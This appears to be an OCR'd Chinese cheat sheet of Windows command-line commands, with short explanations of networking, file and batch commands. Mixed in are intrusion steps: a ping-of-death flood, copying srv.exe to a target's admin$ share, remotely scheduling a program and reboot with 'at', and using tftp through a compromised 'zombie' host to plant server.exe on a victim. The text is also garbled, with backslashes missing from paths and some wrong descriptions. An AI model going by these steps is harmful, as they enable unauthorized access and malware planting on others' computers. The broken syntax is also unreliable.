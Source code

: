 net share ipc$ 开启ipc$共享
net share ipc$ /del 删除ipc$共享
net share c$ /del 删除C：共享
net user guest 12345 用guest用户登陆后用将密码改为12345
net password 密码 更改系统登陆密码
netstat -a 查看开启了哪些端口,常用netstat -an
netstat -n 查看端口的网络连接情况，常用netstat -an
netstat -v 查看正在进行的工作
netstat -p 协议名 例：netstat -p tcq/ip 查看某协议使用情况
netstat -s 查看正在使用的所有协议使用情况
nbtstat -A ip 对方136到139其中一个端口开了的话，就可查看对方最近登陆的用户名
tracert -参数 ip(或计算机名) 跟踪路由（数据包），参数：“-w数字”用于设置超时间隔。
ping ip(或域名) 向对方主机发送默认大小为32字节的数据，参数：“-l[空格]数据包大小”；“-n发送数据次数”；“-t”指一直ping。
ping -t -l 65550 ip 死亡之ping(发送大于64K的文件并一直ping就成了死亡之ping)
ipconfig (winipcfg) 用于windows NT及XP(windows 95 98)查看本地ip地址，ipconfig可用参数“/all”显示全部配置信息
tlist -t 以树行列表显示进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
kill -F 进程名 加-F参数后强制结束某进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
del -F 文件名 加-F参数后就可删除只读文件,/AR、/AH、/AS、/AA分别表示删除只读、隐藏、系统、存档文件，
/A-R、/A-H、/A-S、/A-A表示删除除只读、隐藏、系统、存档以外的文件。例如“DEL/AR *.*”表示删除当前目录下所有只读文件，“DEL/A-S *.*”表示删除当前目录下除系统文件以外的所有文件
del /S /Q 目录 或用：rmdir /s /Q 目录 /S删除目录及目录下的所有子目录和文件。同时使用参数/Q 可取消删除操作时的系统确认就直接删除。（二个命令作用相同）
move 盘符路径要移动的文件名　存放移动文件的路径移动后文件名 移动文件,用参数/y将取消确认移动目录存在相同文件的提示就直接覆盖
fc one.txt two.txt > 3st.txt 对比二个文件并把不同之处输出到3st.txt文件中，"> "和"> >" 是重定向命令
at id号 开启已注册的某个计划任务
at /delete 停止所有计划任务，用参数/yes则不需要确认就直接停止
at id号 /delete 停止某个已注册的计划任务
at 查看所有的计划任务
at ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机
finger username @host 查看最近有哪些用户登陆
telnet ip 端口 远和登陆服务器,默认端口为23
open ip 连接到IP（属telnet登陆后的命令）
telnet 在本机上直接键入telnet 将进入本机的telnet
copy 路径文件名1　路径文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件
copy c:srv.exe ipadmin$ 复制本地c:srv.exe到对方的admin下
copy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件
copy ipadmin$svv.exe c: 或:copyipadmin$*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：
xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件
用参数/e才可连目录下的子目录一起复制到目标地址下。
tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exec:server.exe 登陆后，
将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送
tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机
ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)
route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface
arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息
start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令
mem 查看cpu使用情况
attrib 文件名(目录名) 查看某文件（目录）的属性
attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用+则是添加为某属性
dir 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间
date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间
set 指定环境变量名称=要指派给变量的字符 设置环境变量
set 显示当前所有的环境变量
set p(或其它字符) 显示出当前以字符p(或其它字符)开头的所有环境变量
pause 暂停批处理程序，并显示出：请按任意键继续....
if 在批处理程序中执行条件处理（更多说明见if命令及变量）
goto 标签 将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：“：start”标签）
call 路径批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见call /?）
for 对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量）
echo on或off 打开或关闭echo，仅用echo不加参数则显示当前echo设置
echo 信息 在屏幕上显示出信息
echo 信息 >> pass.txt 将"信息"保存到pass.txt文件中
findstr "Hello" aa.txt 在aa.txt文件中寻找字符串hello
find 文件名 查找某文件